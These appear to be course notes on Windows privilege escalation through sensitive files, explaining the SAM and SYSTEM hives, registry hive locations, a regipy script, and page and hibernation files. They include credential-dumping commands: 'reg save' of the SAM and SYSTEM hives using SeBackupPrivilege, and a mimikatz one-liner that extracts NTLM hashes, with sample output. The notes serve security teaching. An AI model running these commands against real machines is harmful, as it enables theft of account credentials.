 ## Security Accounts Manager (SAM + SYSTEM)

The SAM (Security Accounts Manager) file is a critical component of Windows that stores user account credentials for local accounts.

The SAM file contains various things, including:
- Usernames and password hashes
- Account Information
	- Security Identifiers (SIDs)
- Group Memberships

The SAM file is located in the directory
```powershell
C:\Windows\System32\config
```

By default it cannot be directly accessed, since it is locked by the operating system. Sometimes it is however possible to find backup copies of it.

## SAM Dump with SeBackupPrivilege

However, by having the `SeBackupPrivilege`, it is possible to create copies of the SAM and SYSTEM files.

The `SeBackupPrivilege` is a system privilege that allows users or services to back up files. Since some files are locked for various reasons, the privilege allows users or services to bypass normal file security restrictions.

It is granted to backup operators, system administrators, and trusted backup software.

Since the privilege by design allows to bypass security restrictions, it introduces a *securiry risk* to consider. The privilege should therefore be restricted to only those who stricly need it.

To assign the feature to a user, you can assign the user to the `Backup Operators`, which is a group specifically designed for users who need the `SeBackupPrivilege`.

```powershell
Add-LocalGroupMember -Group "Backup Operators" -Member "Leonardo"
```

Once we have that privilege, it is possible to copy SAM and SYSTEM as follows
```powershell
reg save hklm\sam C:\Users\Leonardo\Desktop\SAM.hive
```

```powershell
reg save hklm\system C:\Users\Leonardo\Desktop\SYSTEM.hive
```

## Mimikatz to dump LSASS Process

We can use `mimikatz` to dump the hashes saved within the Local Security Authority Subsystem Service (LSASS).

```powershell
mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

We will see something of the sort
```powershell
RID  : 000003e8 (1000)
User : Quickemu
	Hash NTLM: 2b576acbe6bcfda7294d6bd18041b8fe
...
RID  : 000003e9 (1001)
User : Leonardo
	Hash NTLM: fd3e9753bc655918982e7f9c08b4b022
```

## Registry Hives

The Windows registry is a hierarchical database structured following a tree-like data structure into `registry hives`.

Each hive is made up of multiple keys and values, and these hives are stored as files on the system.

These data sources are very useful for `threat intelligence`, as they can be used as `Indicator of Compromise` (IOC) for specific malware.

- `HKEY_CLASSES_ROOT (HKCR)`
```powershell
C:\Windows\System32\Config\Software
```

- `HKEY_LOCAL_MACHINE (HKLM)`
```powershell
C:\Windows\System32\Config\SYSTEM
```

- `HKEY_USERS (HKU)`
```powershell
C:\Windows\System32\Config\DEFAULT
```

- `HKEY_CURRENT_USER (HKCU)`
```powershell
C:\Users\<UserName>\NTUSER.DAT
```

- `HKEY_CURRENT_CONFIG (HKCC)`
```powershell
C:\Windows\System32\Config\SystemProfile
```

---

To explore the contents of a hive there is the `regipy` python package.

```powershell
python3 -m venv venv
. venv/bin/activate
pip3 install regipy
```

```python
#!/usr/bin/env python3

from regipy.registry import RegistryHive

def list_registry_keys(hive_path):
	# Load the registry hive
	hive = RegistryHive(hive_path)
	for entry in hive.recurse_subkeys(as_json=True):
		print(entry)

if __name__ == "__main__":
	list_registry_keys("./SYSTEM")
```

## Extra 

### Configuration Files

Certain location are most often used by application to store configuration files.
```powershell
%AppData%
%LocalAppData%
```

### Paging File

If paging is enabled, the system will create a `pagefile.sys` file.
```powershell
C:\pagefile.sys
```

The `pagefile.sys` is kind of like the swap file on Linux. It stores data if the RAM is fully used. 

### Hibernation File

When the hibernation feature is enabled, windows will store the content of the system's RAM into the file `hiberfil.sys` when the computer is put into hibernation.
```powershell
C:\hiberfil.sys
```

---
## References

Mimikatz: https://github.com/gentilkiwi/mimikatz

Regipy: https://github.com/mkorman90/regipy

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-05-windows-privesc-sensitive-files/content/notes.txt